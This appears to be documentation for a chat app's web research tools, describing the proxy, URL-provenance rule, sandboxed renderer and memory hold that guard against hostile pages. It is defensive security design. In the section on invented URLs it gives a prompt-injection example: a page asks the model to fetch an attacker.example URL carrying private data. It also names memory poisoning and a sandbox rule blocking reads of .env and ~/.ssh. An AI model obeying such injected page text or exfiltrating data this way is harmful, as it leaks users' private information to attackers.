

# Web research: the tools and what contains them

The models can search the web, read a page, and view a page the way a
browser renders it. A public web page is input an attacker may have
written, so every one of those tools sits behind the same walls. The
knobs are in [CONFIG.md](CONFIG.md#research-tool-caps), and the rest
says what they govern.

## The tools

- `web_search` asks the search engines you've configured, Tavily or
  Brave or both, and returns labelled results. It needs at least one
  search key.
- `fetch_page` downloads one page and returns its readable text. No
  scripts run. It's the cheap reader and the first choice.
- `view_page` renders one page in a real browser and returns the
  visible text, its links numbered, and a screenshot. It's for pages
  that scripts build, and it's only offered once rendering is
  installed.
- `fetch_youtube_transcript`, `transcribe_audio_url` and
  `fetch_reddit_thread` fetch transcripts and threads from their fixed
  services.

Every call and its result is stored in the chat, where you and every
model in the room can see it.

## What stands between a page and your computer

The walls start from one assumption: a fetched page may be hostile.



One exit, and it's checked. Every URL a model can influence leaves
through a local proxy the app owns. The proxy resolves a host once,
requires every answer to be a public internet address, and connects to
the exact address it checked. A site that changes its DNS answer
between the check and the fetch reaches nothing new. Local services,
private networks and the computer the app runs on are out of reach.

No invented URLs. A model may only fetch a URL that already exists in
the chat from a source that isn't a model: your messages, search
results, links inside a page already fetched, transcripts, text
attachments and machine notices. A hostile page can ask a model to
fetch `https://attacker.example/?q=<something private>`, and the model
can't comply, because it can't author a fetchable URL. A link the page
wrote is allowed, and it can only carry what the page wrote.

An isolated renderer. `view_page` runs the browser in a separate worker
process that holds no keys and no tokens. All of its traffic goes
through the proxy, scripts and frames included. WebRTC's way around a
proxy is switched off. Downloads are refused. Each view gets a
throwaway browser profile, deleted afterwards, and a hard deadline
kills the worker.

A label on everything fetched. Fetched and rendered content arrives
marked as untrusted quoted data, naming its domain, and every model in
the room sees the same label.

A hold in memory. A round that read the web stamps its replies with the
source domains. Facts mined or saved from those turns wait in the
memory service's review queue, grouped as "Learnt from a web page",
until you decide. A page can't write your memory by phrasing a
sentence well.

## Turning rendering on

`web_search` and `fetch_page` need nothing beyond their keys. Rendering
needs one more step.

```sh
.venv/bin/playwright install chromium   # about 160MB, once
```

Without it `view_page` isn't offered and nothing else changes. The tool
also stands down whenever the proxy isn't running, so a renderer never
gets a network path that skips the check.

## When a fetch is refused

A refusal always says what to do instead. The common one is the URL
rule, and the model is told to search first, or to ask you to paste
the link. Pasting a URL into the chat makes it fetchable.

Some sites put a human-verification check in front of automated
readers. The reader doesn't solve those. The models fall back to asking
you for the content, and pasting it into the chat is the supported path
for a gated source.

## Limits

- A site you fetch sees this computer's public address, as it would
  from any browser.
- Verification challenges, paywalls and login walls stay closed.
- Search queries reach the search engines you've configured.
- A model choosing among known links reveals which link it chose.
- One page per call, on request. There's no crawling.
- There's no logged-in browsing. No cookies or credentials are ever
  sent, and no page can ask for them.
- On macOS the rendering worker also runs inside an operating-system
  sandbox profile. It allows no network except the proxy port, no
  writes outside the worker's throwaway profile folder, and no reads
  of the data folder, `.env` or `~/.ssh`. It's a second wall behind the
  proxy and Chromium's own sandbox, never the only one. Other platforms
  run the worker without it, and `scripts/sandbox_probe.py` proves the
  profile on a new machine.
- A rendered page load carries a whole-page transfer budget,
  `browse_page_budget_mb`, of 30MB. A plain fetch keeps per-connection
  caps only.
- A rendered view returns the page's visible text, its numbered links,
  and a screenshot of the viewport. The image is stored as an ordinary
  attachment on the tool row. It's dropped when it exceeds the capture
  budget, and a challenge page's shot is discarded along with its text.
- The label informs the models and can't force them. A page's text is
  still input a model may act on.
